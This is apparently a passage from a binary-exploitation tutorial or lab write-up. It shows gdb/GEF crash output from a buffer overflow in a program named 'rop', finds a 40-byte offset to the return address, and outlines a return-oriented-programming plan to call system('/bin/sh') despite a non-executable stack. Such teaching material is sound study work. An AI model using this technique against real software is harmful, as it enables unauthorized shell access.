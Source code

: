 ```sh
$rip   : 0x0000555555555177  →  <main+50> ret
$r8    : 0x00007fffffffdfa0  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$r9    : 0x00007ffff7fadbe0  →  0x00005555555596a0  →  0x0000000000000000
$r10   : 0x6e
$r11   : 0x246
$r12   : 0x0000555555555060  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdfc8│+0x0000: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"    ← $rsp
0x00007fffffffdfd0│+0x0008: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
0x00007fffffffdfd8│+0x0010: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaa"
0x00007fffffffdfe0│+0x0018: "qaaaraaasaaataaauaaavaaawaaaxaaayaa"
0x00007fffffffdfe8│+0x0020: "saaataaauaaavaaawaaaxaaayaa"
0x00007fffffffdff0│+0x0028: "uaaavaaawaaaxaaayaa"
0x00007fffffffdff8│+0x0030: "waaaxaaayaa"
0x00007fffffffe000│+0x0038: 0x0000555500616179 ("yaa"?)
──────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x55555555516c <main+39>        call   0x555555555040 <fgets@plt>
   0x555555555171 <main+44>        mov    eax, 0x0
   0x555555555176 <main+49>        leave
 → 0x555555555177 <main+50>        ret
[!] Cannot disassemble from $PC
──────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "rop", stopped 0x555555555177 in main (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555555177 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  !cyclic -l kaaa
40
```

We know that we can overwrite the return address after 40 bytes, but we can't just throw out some shellcode on the stack like we did before because the stack has been marked as non-executable. Instead, we'll have to find another way to execute `system("/bin/sh")`.

## ROP Gadgets

Our goal is to get a shell, which takes two steps to do:
1. Set `rdi` equal to a pointer to "/bin/sh"
2. Jump to `system()`
